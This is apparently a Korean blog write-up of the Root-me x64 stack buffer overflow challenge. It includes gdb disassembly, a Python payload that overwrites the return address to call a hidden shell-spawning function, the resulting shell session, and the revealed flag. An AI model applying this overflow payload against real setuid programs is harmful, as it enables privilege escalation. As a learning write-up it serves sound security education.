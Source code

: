 ```yaml
---
layout: post
title: Root-me) ELF x64 stack buffer over flow - basic
date: 2018-07-22 22:41:20 +0900
description: # Add post description (optional)
img: post-2.jpg # Add image post (optional)
tags: [CTF, Root-me]
author: purelledhand # Add name author (optional)
---
```


# 서론 : write-up

함수들을 조회해보면 아래와 같당

    gdb$ info func
    All defined functions:

    Non-debugging symbols:
    0x0000000000400528  _init
    0x0000000000400560  strlen@plt
    0x0000000000400570  system@plt
    0x0000000000400580  printf@plt
    0x0000000000400590  geteuid@plt
    0x00000000004005a0  __libc_start_main@plt
    0x00000000004005b0  __gmon_start__@plt
    0x00000000004005c0  setreuid@plt
    0x00000000004005d0  __isoc99_scanf@plt
    0x00000000004005e0  _start
    0x0000000000400610  deregister_tm_clones
    0x0000000000400640  register_tm_clones
    0x0000000000400680  __do_global_dtors_aux
    0x00000000004006a0  frame_dummy
    0x00000000004006cd  callMeMaybe
    0x00000000004006fc  main
    0x0000000000400760  __libc_csu_init
    0x00000000004007d0  __libc_csu_fini
    0x00000000004007d4  _fini


main에서는 호출되지 않는 callMeMaybe함수를 rip 핸들링을 통해 호출시키는 문제였다.

    gdb$ disas callMeMaybe
    Dump of assembler code for function callMeMaybe:
    0x00000000004006cd <+0>:	push   rbp
    0x00000000004006ce <+1>:	mov    rbp,rsp
    0x00000000004006d1 <+4>:	push   rbx
    0x00000000004006d2 <+5>:	sub    rsp,0x8
    0x00000000004006d6 <+9>:	call   0x400590 <geteuid@plt>
    0x00000000004006db <+14>:	mov    ebx,eax
    0x00000000004006dd <+16>:	call   0x400590 <geteuid@plt>
    0x00000000004006e2 <+21>:	mov    esi,ebx
    0x00000000004006e4 <+23>:	mov    edi,eax
    0x00000000004006e6 <+25>:	call   0x4005c0 <setreuid@plt>
    0x00000000004006eb <+30>:	mov    edi,0x4007e4
    0x00000000004006f0 <+35>:	call   0x400570 <system@plt>
    0x00000000004006f5 <+40>:	add    rsp,0x8
    0x00000000004006f9 <+44>:	pop    rbx
    0x00000000004006fa <+45>:	pop    rbp
    0x00000000004006fb <+46>:	ret    


해당 callMeMaybe함수를 보면 <+30> 라인부터 0x4007e4에 있는 문자열을 system함수의 인자로 넣어 실행시키는 것을 알 수 있다.

    gdb$ x/s 0x4007e4
    0x4007e4:	"/bin/bash"

그 주소에 있는 문자열은 위와 같이 "/bin/bash"였으며 따라서 callMeMaybe함수의 주소를 eip 값으로 넣으면 쉘을 딸 수 있음을 알 수 있었다.

    gdb$ disas main
    Dump of assembler code for function main:
    0x00000000004006fc <+0>:	push   rbp
    0x00000000004006fd <+1>:	mov    rbp,rsp
    0x0000000000400700 <+4>:	sub    rsp,0x120
    0x0000000000400707 <+11>:	mov    DWORD PTR [rbp-0x114],edi
    0x000000000040070d <+17>:	mov    QWORD PTR [rbp-0x120],rsi
    0x0000000000400714 <+24>:	lea    rax,[rbp-0x110]
    0x000000000040071b <+31>:	mov    rsi,rax
    0x000000000040071e <+34>:	mov    edi,0x4007ee
    0x0000000000400723 <+39>:	mov    eax,0x0
    0x0000000000400728 <+44>:	call   0x4005d0 <__isoc99_scanf@plt>
    0x000000000040072d <+49>:	lea    rax,[rbp-0x110]
    0x0000000000400734 <+56>:	mov    rdi,rax
    0x0000000000400737 <+59>:	call   0x400560 <strlen@plt>
    0x000000000040073c <+64>:	mov    DWORD PTR [rbp-0x4],eax
    0x000000000040073f <+67>:	lea    rax,[rbp-0x110]
    0x0000000000400746 <+74>:	mov    rsi,rax
    0x0000000000400749 <+77>:	mov    edi,0x4007f1
    0x000000000040074e <+82>:	mov    eax,0x0
    0x0000000000400753 <+87>:	call   0x400580 <printf@plt>
    0x0000000000400758 <+92>:	mov    eax,0x0
    0x000000000040075d <+97>:	leave  
    0x000000000040075e <+98>:	ret    
    End of assembler dump.


main 함수의 어셈블리를 보면 0x100의 인자를 scanf로 받은 후 Hello [인자] 형태를 printf로 출력해주는 프로그램임을 알 수 있다. (아래 참조)

    app-systeme-ch35@challenge03:~$ ./ch35
    AAAA
    Hello AAAA

scanf함수에 넣은 값은 rbp-0x110부터 들어간다.

    gdb$ x/s $rbp-0x110
    0x38b07867980:	'A' <repeats 47 times>

이제 ret의 주소가 rbp+8이므로 페이로드를 'A'*0x118+[callMeMaybe() 주소값]으로 작성해서 ret값을 callMeMaybe함수의 주소로 덮으면 된다!

    app-systeme-ch35@challenge03:~$ (python -c 'print "A"*0x118+"\xcd\x06\x40\x00\x00\x00\x00\x00"'; cat) | ./ch35
    Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
    ls -al
    total 28
    drwxr-x---  2 app-systeme-ch35-cracked app-systeme-ch35         4096 mai   25  2015 .
    drwxr-xr-x 35 root                     root                     4096 mars  17 09:33 ..
    -rwsr-x---  1 app-systeme-ch35-cracked app-systeme-ch35         8633 mai   24  2015 ch35
    -rw-r-----  1 app-systeme-ch35-cracked app-systeme-ch35          447 mai   24  2015 ch35.c
    -r--------  1 app-systeme-ch35-cracked app-systeme-ch35-cracked   20 mai   24  2015 .passwd
    id
    uid=1235(app-systeme-ch35-cracked) gid=1135(app-systeme-ch35) groups=1235(app-systeme-ch35-cracked),100(users),1135(app-systeme-ch35)
    cat .passwd
    B4sicBufferOverflow
    
풀고 나서 다른 분이 쓰신 라업을 봤는데 페이로드에 주소값을 그냥 빅엔디안으로 쓰고 [:: - 1]을 이용해서 리틀엔디안으로 처리하시더랑
되게 좋은 꿀팁이었당 앞으로 나도 애용해야겠다.


# 본론 : 내가 배운 것


이전에 풀었던 문제들과 비슷한 패턴이었음에도 불구하고 오랫동안 삽질을 했다.

아직 체계가 흐릿하게 잡혔지만 **64비트 바이너리에서 rbp+8이 ret임을 확인**해갔던 과정을 포스팅하면서 다시 정리하고자 한다.

    gdb$ i r
    rax            0x1	0x1
    rbx            0x0	0x0
    rcx            0x0	0x0
    rdx            0x1	0x1
    rsi            0x30d8368e9f0	0x30d8368e9f0
    rdi            0x30d8368d640	0x30d8368d640
    rbp            0x38b27699850	0x38b27699850
    rsp            0x38b27699730	0x38b27699730
    rip            0x40072d	0x40072d <main+49>

    gdb$ x/10gx $rbp+8
    0x38b27699858:	0x0000030d832eff45	0x0000038b27699938

보면 rip의 값은 0x40072d로 다음에 실행될 명령어의 주소를 의미한다.
하지만 rbp+8의 값은 0x40072d가 아닌 값이라 낯설 수 있다.

rbp+8 값의 인스트럭트를 따라가보면 도중에 아래와 같은 내용이 나온다.

    0x0000030d832eff43 <+243>:	call   rax
    0x0000030d832eff45 <+245>:	mov    edi,eax
    0x0000030d832eff47 <+247>:	call   0x30d8330a1e0 <__GI_exit>


<+243> call rax에서 rax의 값을 확인하기 위해 0x0000030d832eff43에 브레이크 포인트(이하 브포)를 걸었다.
이 때 __libc_start_main+0xf3 처럼 주소가 아닌 __libc_start_main으로부터의 오프셋으로 설정해야 브포가 걸렸다. 오프셋도 헥스값으로 주지않으면 브포가 걸리지 않는다.

    gdb$ b *__libc_start_main+0xf3
    Breakpoint 2 at 0x30d832eff43: file libc-start.c, line 287.

    gdb$ i r
    rax            0x4006fc	0x4006fc

이렇게 rax에 main함수의 주소인 0x4006fc가 들어있는 것을 확인할 수 있었다.
정리해보면 함수가 끝난 후 main을 호출하고 exit를 호출하는 로직이다.

<img src="{{site.baseurl}}/assets/img/rootme/system4/stack.jpg" alt="stack" style="width: 400px;"/>

그래서 main을 호출 한 후 return addr이 mov edi, eax가 된 상황이다. 그 이후에는 exit를 호출한 후 main으로 복귀할 것이다.

# 결론

> 1. 64비트 바이너리 환경에서 rbp와 rip, ret의 관계 체계를 정리해볼 수 있었다.
> 2. 페이로드 작성 시 힘들게 리틀엔디안으로 바꾸지 말고 [:: - 1]을 이용하자